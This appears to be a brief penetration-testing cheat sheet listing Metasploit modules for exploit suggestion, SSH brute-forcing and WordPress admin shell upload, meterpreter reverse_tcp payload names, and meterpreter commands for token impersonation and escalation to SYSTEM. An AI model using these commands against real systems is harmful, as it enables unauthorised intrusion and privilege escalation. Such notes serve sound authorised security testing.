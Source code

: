 ```bash
post/multi/recon/local_exploit_suggester #exploit suggestor
auxiliary/scanner/ssh/ssh_login #ssh bruteforce
unix/webapp/wp_admin_shell_upload #upload shell to wordpress if have login of admin 

#payloads
opsystem/meterpreter/reverse_tcp # staged payload may fail 
opsystem/meterpreter_reverse_tcp # not staged works better
```
###### Get user identification 
`meterpreter> getuid`
###### Potatos 
`meterpreter> load incognito`
`meterpreter> list_tokens -u`
`meterpreter> impersonate_token "NT AUTHORITY\SYSTEM"`

#impersonation #dublication
`meterpreter> getsystem -h`